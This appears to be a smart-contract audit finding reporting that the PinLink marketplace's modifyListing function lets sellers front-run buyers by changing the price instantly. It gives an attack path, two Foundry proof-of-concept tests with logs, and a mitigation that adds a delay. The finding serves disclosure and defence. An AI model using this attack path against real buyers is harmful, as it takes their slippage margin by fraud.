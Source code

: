 Dizzy Concrete Crane

Medium

# Attacker can Front-Run their Buyers and Change the Price of their Listing

### Summary

The [`modifyListing`](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/pinlinkShop.sol#L269-L282) function sets the `price` and `deadline` without any delay which can cause devious sellers to front-run the purchase and get more money than they are entitled to.

### Root Cause

In the [`modifyListing`](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/pinlinkShop.sol#L269-L282) function, the seller can change both the `price` and `deadline` of their listing without any delay whatsoever. 

This can cause two front-running attacks as stated below: 
1. Attackers can arbitrarily increase the price of their listing when buyers with high slippage calls the `purchase` function. 
2. Attackers can deliberately cause the buyer's `purchase` function to revert by increasing the price. 

### Internal Pre-conditions

1. Seller needs to list their `fractionalAssets` for sale. 

### External Pre-conditions

1. A buyer needs to see the deal, and call the `purchase` function. 

### Attack Path

1. The attacker will list a normal `fractionalAsset` for sale. 
2. The attacker will wait till somebody wants to buy their asset. 
3. If the `slippage` of the buyer is low, the attacker will front-run their offer and increase the `usdPricePerFraction` using the `modifyListing` function. This will cause the buyer to revert. 
4. The attacker will wait till somebody with a lot of slippage calls the purchase function. 
5. If the `slippage` is enough profit for the attacker, the attacker will front-run their offer and increase the `usdPricePerFraction` enough to not trigger the slippage. 
6. The attacker gets away with a lot more money than they are entitled to. 

### Impact

The user will be scammed out of the slippage spread they kept for their own protection. They will end up paying more money than they would have. 

### PoC

There are 2 PoCs. You can put it in `marketplace-contracts/test/pinlinkShop/modifyListing.t.sol`: 

```solidity
function test_modifyListing_frontrunning_revert() public {
        Listing memory listing = pshop.getListing(listingId);
        uint256 newDeadline = listing.deadline;

        console.log("when attacker modifies their listing, there is no delay"); 
        vm.prank(alice);
        pshop.modifyListing(listingId, 800e18, newDeadline);

        uint amount = 30; 
        console.log("buyer wants to buy", amount, "Fractions");         

        uint256 pinAmount = pshop.getQuoteInTokens(listingId, amount);
        console.log("buyer has to pay %e", pinAmount, "pinAmount"); 
        if (pinAmount == type(uint256).max) revert("Invalid quote for some reason");

        vm.prank(alice);
        pshop.modifyListing(listingId, 2000e18, newDeadline);
        console.log("attacker does not like their slippage so they revert the transaction by front-running it"); 
        console.log("the price changes immediately after calling the function"); 

        vm.startPrank(bob);
        vm.expectRevert(); 
        pshop.purchase(listingId, amount, pinAmount); 
        console.log("buyer's transaction reverts"); 
    }
```

Logs: 
```bash
  when attacker modifies their listing, there is no delay
  buyer wants to buy 30 Fractions
  buyer has to pay 2.5263157894736842105263e22 pinAmount
  attacker does not like their slippage so they revert the transaction by front-running it
  the price changes immediately after calling the function
  buyer's transaction reverts
```

```solidity
function test_modifyListing_frontrunning() public {
        Listing memory listing = pshop.getListing(listingId);
        uint256 newDeadline = listing.deadline;

        console.log("when attacker modifies their listing, there is no delay"); 
        vm.prank(alice);
        pshop.modifyListing(listingId, 800e18, newDeadline);

        Listing memory updatedListing = pshop.getListing(listingId);
        
        uint amount = 30; 
        console.log("buyer wants to buy", amount, "Fractions");         

        uint256 pinAmount = pshop.getQuoteInTokens(listingId, amount);
        console.log("buyer has to pay %e", pinAmount, "pinAmount"); 
        if (pinAmount == type(uint256).max) revert("Invalid quote for some reason");

        uint pinMaxSlippage = (pinAmount * 110) / 100; 
        console.log("buyer sets pinMaxSlippage to %e", pinMaxSlippage); 
        
        // console.log("usd price", updatedListing.usdPricePerFraction); 
        uint new_price = (updatedListing.usdPricePerFraction * 1e18) / pinMaxSlippage; 
        console.log("attacker front-runs and changes price according to the buyer's slippage %e", new_price); 
        vm.prank(alice);
        pshop.modifyListing(listingId, new_price, newDeadline);
        console.log("the price changes immediately after calling the function"); 

        uint bob_starting_bal = PIN.balanceOf(address(bob)); 
        vm.startPrank(bob);
        pshop.purchase(listingId, amount, pinMaxSlippage); 
        console.log("buyer buys the amount with high slippage %e", bob_starting_bal - PIN.balanceOf(address(bob))); 
    }
```

Logs: 
```bash
  when attacker modifies their listing, there is no delay
  buyer wants to buy 30 Fractions
  buyer has to pay 2.5263157894736842105263e22 pinAmount
  buyer sets pinMaxSlippage to 2.7789473684210526315789e22
  attacker front-runs and changes price according to the buyer's slippage 2.8787878787878787e16
  the price changes immediately after calling the function
  buyer buys the amount with high slippage 9.09090909090909063e17
```

### Mitigation

A delay after which the `price` and `deadline` will update will be the best solution for this. 